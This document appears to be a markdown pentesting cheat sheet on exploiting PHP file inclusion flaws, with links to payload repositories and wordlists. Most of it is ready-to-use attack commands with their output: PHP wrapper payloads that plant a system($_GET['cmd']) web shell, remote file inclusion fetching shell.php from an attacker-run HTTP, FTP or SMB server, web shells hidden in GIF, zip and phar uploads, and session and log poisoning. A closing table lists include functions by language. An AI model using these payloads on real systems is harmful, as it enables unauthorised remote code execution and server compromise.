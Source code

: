 ## file Inclusion methods and bypass

- [File Inclusion Methods and bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

## files to include

- [Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
- [Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
-  [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
- web directory conf files like (conf.php , .env files)

## Remote Code Execution

### PHP wrappers 
  

#### Wrapper expect://   `require Expect extension`
```bash
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper data://   `require allow_url_include on`
```bash
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
http://example.net/?page=data:text/plain<?php+system($_GET['cmd']);echo+'Shell done !';+?>

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

#### Wrapper input://        `require allow_url_include on`
```bash
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

=> uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Wrapper php://filter
[synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)



### Remote File Inclusion  `require the allow_url_include`

### HTTP

```bash
$ sudo python3 -m http.server <LISTENING_PORT>
=> Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### FTP 

```bash
$ sudo python -m pyftpdlib -p 21

[SNIP] >>> starting FTP server on 0.0.0.0:21, pid=23686 <<<
[SNIP] concurrency model: async
[SNIP] masquerade (NAT) address: None
[SNIP] passive ports: None
```


```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### SMP  `do not need the allow_url_include`

```bash
impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note** : this technique is **more likely to work if we were on the same network**, as accessing remote SMB servers over the internet may be disabled by default, depending on the Windows server configurations.


### Chain LFI & File Upload

#### Image Upload
```bash
$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Zip Upload (using  Wrappers  zlib:// bzip2://  zip://)
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Phar Upload

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Log Poisoning

#### PHP Session Poisoning

- if php site using language paramter language
```url
http://<SERVER_IP>:<PORT>/index.php?language=en.php
```
- session is stored in  `/var/lib/php/sessions/sess_SessionValue`
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd'

=> selected_language|s:6:"en.php";preference|s:7:"English";
```
- check if you can control any value in the session 
- assume selected_language is contolable
```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=<?php system($_GET["cmd"]);?>'
```

```bash
curl 'http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id'
...SNIP...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


#### Server Log Poisoning

##### inject these then include log files

##### User-Agent Header
- `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log`
- `/proc/self/environ`  or `/proc/self/fd/N`

##### username to PHP code
- ftp `/var/log/vsftpd.log`
- ssh  `/var/log/sshd.log`

##### email containing PHP code
- mail services  `/var/log/mail`


## File Inclusion Functions

| **Function** | **Read Content** | **Execute** | **Remote URL** |
| ----- | :-----: | :-----: | :-----: |
| **PHP** |
| `include()`/`include_once()` | ✅ | ✅ | ✅ |
| `require()`/`require_once()` | ✅ | ✅ | ❌ |
| `file_get_contents()` | ✅ | ❌ | ✅ |
| `fopen()`/`file()` | ✅ | ❌ | ❌ |
| **NodeJS** |
| `fs.readFile()` | ✅ | ❌ | ❌ |
| `fs.sendFile()` | ✅ | ❌ | ❌ |
| `res.render()` | ✅ | ✅ | ❌ |
| **Java** |
| `include` | ✅ | ❌ | ❌ |
| `import` | ✅ | ✅ | ✅ |
| **.NET** | |
| `@Html.Partial()` | ✅ | ❌ | ❌ |
| `@Html.RemotePartial()` | ✅ | ❌ | ✅ |
| `Response.WriteFile()` | ✅ | ❌ | ❌ |
| `include` | ✅ | ✅ | ✅ |









